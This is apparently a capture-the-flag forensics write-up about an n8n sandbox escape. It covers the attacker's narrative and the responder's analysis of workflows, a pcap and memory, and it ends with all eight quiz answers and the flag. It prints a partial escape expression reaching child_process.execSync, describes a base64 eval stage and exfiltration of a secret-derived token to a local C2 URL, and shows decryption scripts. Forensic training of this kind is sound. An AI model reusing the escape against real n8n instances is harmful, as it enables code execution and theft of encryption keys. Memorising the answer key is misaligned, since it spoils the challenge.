






# nodemation - Proof of Concept

> Cybreak 2026 - Forensics - Medium - UrSourceCode

The idea behind this challenge is [CVE-2026-27577 and TheHackerNews news about n8n Sandbox Escape](https://thehackernews.com/2026/07/n8n-sandbox-escape-lets-workflow.html). In this challenge, participants were given a zip distributable artifacts that contains:

1. `README.txt` - the incident snapshot: what the host was, what the analyst saw, and a neutral file inventory. No solve hints.
2. `workflow_export.json` - 7 workflows exported from the live n8n instance (1 malicious, 2 failed-attempt decoys, 4 normal).
3. `workflow_versions.json` - the saved version history of the workflows (v1 -> v2 diffs show the tamper).
4. `workflow_owners.pdf` - the workflow -> owner register. It looks blank/empty (the text is white on white).
5. `executions.json` - execution records from the instance, including the compromise run.
6. `audit.log` - the audit log of workflow changes (who edited what, when).
7. `n8n-event-log.json` - excerpts of the n8n event log.
8. `docker-inspect.txt` - the container environment dump (key redacted during IR).
9. `.env` - the environment file, with the key rotated during IR (a placeholder).
10. `traffic.pcap` - a network capture from the host.
11. `c2-memory.bin` - a raw memory excerpt from the listener that accepted the exfiltration request.

Plus a **challenge server** address (`nc <host> <port>`) - a live quiz that asks 8 forensic questions and prints the flag after 8 correct answers. The flag is **not** in the artifacts.

## Narrative

### The Setup

The attack was reproduced using the same flawed n8n version, n8n 2.30.4, in a Docker container on an internal automation host (hostname `elsche`, timezone Asia/Jakarta). There are 7 workflows, of which 1 malicious workflow was edited by the attacker `grb@hcs.org`.

### Attack Narrative

The attacker (an insider with workflow-editor rights - the exact account class the advisory warns about) modified the **Nightly Backup** workflow by adding two fields to the `Sync & Notify` Set node:

- `cacheKey` — benign, `={{ $json.body.volume || 'nightly' }}` (looks like normal config)
- `syncResult` — the payload: `={{ ((R,p)=>R.get(p,'getBuiltinModule'))((()=>Reflect)(),(()=>process)())('child_process').execSync(...) }}`

This expression exploits the two sandbox blind spots from the advisory:

1. `() => process` resolves to the real Node `process` (arrow-function branch was a no-op).
2. `Reflect.get(p, 'getBuiltinModule')` dodges the static-property check to pull `process.getBuiltinModule`.

Inside is a base64 blob — the stage-2 payload.
The audit log records it: `workflow.update user=grb@hcs.org workflow=wf-nightly-backup-0001 version=2`.

### Step by step

**Step 1 — The editor save (09:31:16.237 UTC / 16:31:16.237 WIB)**

`grb@hcs.org` opens **Nightly Backup** in the editor from `10.30.4.21` and saves a **v2**. v1 was harmless (`Webhook (backup-sync) -> Sync & Notify` just echoed a sync notice); v2 carries the escape in the `syncResult` field.

**Step 2 — Publish + activate (09:31:38.237 UTC)**

`grb` publishes v2, so the `backup-sync` webhook now runs the poisoned logic whenever triggered. The audit log shows `workflow.publish user=grb@hcs.org`.

The decoys — Invoice Totalizer and Metrics Push — are grb's earlier attempts (July/August). One hits a closed local port `127.0.0.1:8081`, the other encrypts with the wrong key `3d91b27c1a99079a61a194fa4da72ac1`. Practice runs.

**Step 3 — The trigger (09:32:16.161 UTC)**

A POST to the `backup-sync` webhook starts an execution. The `Sync & Notify` node evaluates the expression -> **sandbox escape**.

**Step 4 — RCE (09:32:16.161 UTC)**

Inside the n8n process, the expression:

1. loads `child_process`
2. runs `execSync("node -e \"eval(Buffer.from('<b64>','base64').toString())\"")` — spawning a **child node process** (the "spawned a child process" from the README)

**Step 5 — Stage-2 exfil**

The child process runs the decoded stage-2 script, which:

1. reads `N8N_ENCRYPTION_KEY` from the environment
2. builds a token `hostname-epoch` -> `elsche-1788423551`
3. XOR-encrypts it with keystream `sha256(key + "::n8n-exfil-v1")`
4. sends `GET http://127.0.0.1:31337/log?d=v1:06e42f8b259ecbe7ceb86f6c373c7644a3` to a local C2

The event log shows it: `n8n.workflow.started` -> `n8n.node.started` -> `n8n.workflow.success`, execution `531`.

**Step 6 — Listener state and IR capture**

The listener on port 31337 accepts the real request and keeps its `C2_SEED` configuration as hex in process memory. It does not hold the challenge flag.

The analyst's tcpdump captures clean webhook noise, the two failed decoy callouts, the **real** `/log?d=v1:...` request, and an earlier `/api/config` POST carrying `base64(reversed(key))`. During containment, the analyst also captures `c2-memory.bin` from the suspicious listener.

## Responder Point of View

### Step 1 - Find the exploit

We started by grepping the workflows for the two primitives we expected from the advisory:

```
grep -n "getBuiltinModule\|execSync" workflow_export.json
```

Three workflows carry the escape shape: Nightly Backup, Invoice Totalizer, Metrics Push. Only one succeeds.



### Step 2 - Decode the payloads

Each `Buffer.from('<blob>', 'base64')` is stage-2 JS. Decoding all three, we saw the scheme:

- token = `hostname-<unix_epoch>`
- keystream = `sha256(N8N_ENCRYPTION_KEY + "::n8n-exfil-v1")`
- ciphertext = `token XOR keystream` (cyclically)
- sent to `127.0.0.1:31337` (real) / `127.0.0.1:8081` (dead) / wrong key `3d91b27c1a99079a61a194fa4da72ac1`

### Step 3 - Un-hide the PDF

`workflow_owners.pdf` opened fine but was **blank** - every word is white on white. we selected all / copied, or extracted the text layer:

```
pdftotext workflow_owners.pdf -
```

Owner table: Nightly Backup, Invoice Totalizer, Metrics Push -> `grb@hcs.org`; the other four -> `mirai@hcs.org` / `rootkids@hcs.org`.



### Step 4 - Correlate the pcap

We pulled the HTTP URIs from the capture:

```
tshark -r traffic.pcap -Y http -T fields -e http.request.uri
```

The capture has 39 webhook requests, three suspicious callouts, and one `/api/config` POST:

- closed-port attempt: SYN -> RST to `127.0.0.1:8081`
- wrong-key attempt: `GET /log?d=v1:87cf8d4c...` to `127.0.0.1:31337` (decrypts to garbage)
- **real exfil**: `GET /log?d=v1:06e42f8b259ecbe7ceb86f6c373c7644a3` (decrypts cleanly)
- key packet: `POST /api/config` with `key=base64(reversed(key))`

The timing ties them to the live records: the port-8081 RST falls inside Invoice Totalizer execution 529, while the valid exfil at `09:32:16.237Z` falls inside Nightly Backup execution 531. The audit update at `09:31:16.237Z` and publish at `09:31:38.237Z` both precede that run.



### Step 5 - Recover the key

The real key is NOT in `.env` (rotated). we found it in the `/api/config` packet:



```
key = ZWRvY2VjcnVvc3J1LXliLWxsYWhjLTYyMDIta2FlcmJ5Yy10YS1zY2g=
base64-decode -> reversed key
reverse        -> hcs-at-cybreak-2026-chall-by-ursourcecode
```



The key is stored reversed as mentioned in README.txt

### Step 6 - Decrypt the token

We plugged the key into the XOR scheme from Step 2:

```python
import hashlib

key = "hcs-at-cybreak-2026-chall-by-ursourcecode"
hexv = "06e42f8b259ecbe7ceb86f6c373c7644a3"
ks = hashlib.sha256((key + "::n8n-exfil-v1").encode()).digest()
ct = bytes.fromhex(hexv)
print(bytes(b ^ ks[i % len(ks)] for i, b in enumerate(ct)).decode())
```

```text
elsche-1788423551
```

### Step 7 - Inspect listener memory

The responder uses the binary memory excerpt as a separate evidence source:

```bash
strings c2-memory.bin | grep C2_SEED
# C2_SEED=73696d2d736565642d323032362d637466
```

The value is hex, not plaintext. We decode it to ASCII and compute SHA-256 for the final memory-evidence answer:

```python
import hashlib

seed_hex = "73696d2d736565642d323032362d637466"
seed = bytes.fromhex(seed_hex)
print(hashlib.sha256(seed).hexdigest())
```

## Answering the Question

### Question 1

> What sequence in the malicious workflow enables process execution?

Answer: **`getBuiltinModule, child_process, execSync`**

Proof: the Set node calls `R.get(p,'getBuiltinModule')('child_process').execSync(...)`. `Reflect.get` retrieves the built-in loader, `child_process` supplies the module, and `execSync` starts the child Node process.

### Question 2

> What encryption key was used for the valid exfiltration payload?

Answer: **`hcs-at-cybreak-2026-chall-by-ursourcecode`**

Proof: the `/api/config` POST in `traffic.pcap` carries `{"key":"ZWRvY2VjcnVvc3J1LXliLWxsYWhjLTYyMDIta2FlcmJ5Yy10YS1zY2g=",...}`. We base64-decoded it to get the key reversed, then un-reversed it. The stage-2 payload uses `sha256(key + "::n8n-exfil-v1")`.

### Question 3

> Which workflow and execution produced the valid exfiltration?

Answer: **`wf-nightly-backup-0001, 531`**

Proof: frame 163 at `09:32:16.237Z` decrypts to a valid `hostname-epoch` token. It falls inside execution 531's `09:32:16.161Z` to `09:32:16.247Z` window; that record names `wf-nightly-backup-0001`.

### Question 4

> Which account owned and saved the tampered workflow?

Answer: **`grb@hcs.org`**

Proof: extracting the white-on-white PDF text gives `Nightly Backup -> grb@hcs.org`. The same account is `savedBy` for v2 in `workflow_versions.json` and appears in the audit update.

### Question 5

> What token was exfiltrated from the host?

Answer: **`elsche-1788423551`**

Proof: decrypting `d=v1:06e42f8b259ecbe7ceb86f6c373c7644a3` with the cyclic XOR keystream yields the token. `elsche` matches the container hostname in `docker-inspect.txt`.

### Question 6

> When did the successful exfiltration occur in UTC?

Answer: **`2026-09-02T09:32:16.237Z`**

Proof: the valid `/log?d=v1:` request is frame 163 in `traffic.pcap`; its packet timestamp is exactly `09:32:16.237Z`.

### Question 7

> Which workflow and execution produced the connection-refused request to port 8081?

Answer: **`wf-invoice-totalizer-0002, 529`**

Proof: frames 141-142 show the port-8081 SYN -> RST. The RST falls inside execution 529's window, and that record identifies `wf-invoice-totalizer-0002`.

### Question 8

> What is the SHA-256 digest of the hex-decoded C2 seed material in captured process memory?

Answer: **`dbbf142a78ee9485894e2a6f0e991c6ce1125eddd4160bae2d5a8b5d4d56db63`**

Proof: `strings c2-memory.bin | grep C2_SEED` prints `C2_SEED=73696d2d736565642d323032362d637466`. We hex-decoded that value to ASCII and ran SHA-256 over the resulting seed. The plaintext seed and digest do not appear directly in the dump. All eight correct answers printed the flag:

```text
CYB26{5usp1c10us_w0rkfl0w_3xecut10n_iN_n8n_s4ndb0x}
```


